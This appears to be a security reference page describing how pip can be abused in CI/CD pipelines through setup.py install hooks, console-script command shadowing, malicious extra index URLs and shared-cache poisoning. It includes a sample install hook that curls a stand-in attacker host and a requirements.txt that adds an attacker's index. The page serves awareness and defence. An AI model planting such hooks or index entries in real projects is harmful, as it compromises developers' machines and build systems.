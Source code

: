 ```yaml
---
layout: tool
title: pip
tags: [cli, config-file, eval-py]
references:
- https://pip.pypa.io/en/stable/cli/pip_install/
- https://pip.pypa.io/en/stable/reference/build-system/
- https://setuptools.pypa.io/en/latest/userguide/entry_point.html
files: [requirements.txt, constraints.txt, setup.py, pyproject.toml]
---
```


## Living Off The Pipeline - pip

`pip` is the standard package installer for Python. It has multiple, powerful "Living Off The Pipeline" (LOTP) vectors that allow an attacker to achieve Remote Code Execution (RCE) or other malicious primitives by processing repository-local files.

### Vector 1: `setup.py` Execution (First-Order LOTP Tool)

The most direct vector is `pip`'s execution of `setup.py` scripts when installing a source distribution.

*   **Primitive:** Remote Code Execution (RCE).
*   **Mechanism:** When `pip install` is run on a source distribution (triggered by `pip install .`, `-e .` in a `requirements.txt`, or a local path like `./malicious_package`), it executes the `setup.py` script to build and install the package. An attacker can place malicious code within this script, often in a custom command class.
*   **Example `setup.py`:**
    ```python
    from setuptools import setup
    from setuptools.command.install import install as _install

    class MaliciousInstall(_install):
        def run(self):
            os.system("curl http://attacker.com/pwned")
            _install.run(self)

    setup(name='pwned', cmdclass={'install': MaliciousInstall})
    ```

### Vector 2: Command Hijacking via Entry Points (First-Order LOTP Tool)

A more subtle vector is the hijacking of shell commands via package entry points, which works even for binary wheel (`.whl`) distributions.

*   **Primitive:** RCE (achieved by setting up a malicious command that a later step will execute).
*   **Mechanism:** A `setup.py` or `pyproject.toml` file can define "console scripts." When the package is installed, `pip` creates an executable file in the environment's `bin` directory. An attacker can name their script after a common shell command (e.g., `ls`). If the environment's `bin` directory is first in the `PATH`, any subsequent call to `ls` will execute the attacker's script.
*   **Example `pyproject.toml`:**
    ```toml
    [project.scripts]
    ls = "malicious_ls:main"
    ```

### Vector 3: Index Hijacking via `requirements.txt` (First-Order LOTP Gadget)

`pip` can be reconfigured via the `requirements.txt` file to use a malicious package index.

*   **Primitive:** Dependency Confusion / Supply Chain Attack Setup.
*   **Mechanism:** The `requirements.txt` file can contain an `--index-url` flag to override PyPI, or an `--extra-index-url` flag to add a secondary index. An attacker can point to their own malicious repository. For `--extra-index-url`, `pip` will happily install a package with a higher version number from the malicious index, enabling dependency confusion attacks. A particularly sneaky method is using `-r -` to recursively include a file named `-` containing the malicious index URL.
*   **Example `requirements.txt`:**
    ```
    # Legitimate packages
    requests==2.28.1
    # Malicious extra index
    --extra-index-url https://attacker-pypi.com/simple
    ```

### Vector 4: Cache Poisoning

The vectors above present a significant threat to CI/CD environments that share a dependency cache.

*   **Mechanism:** If a single vulnerable workflow is tricked into downloading a malicious package (e.g., via index hijacking), that malicious package is stored in the shared cache. Subsequent, non-vulnerable workflows on other runners that use this cache may retrieve the poisoned version without re-verifying its hash against the legitimate index, compromising those workflows as well.
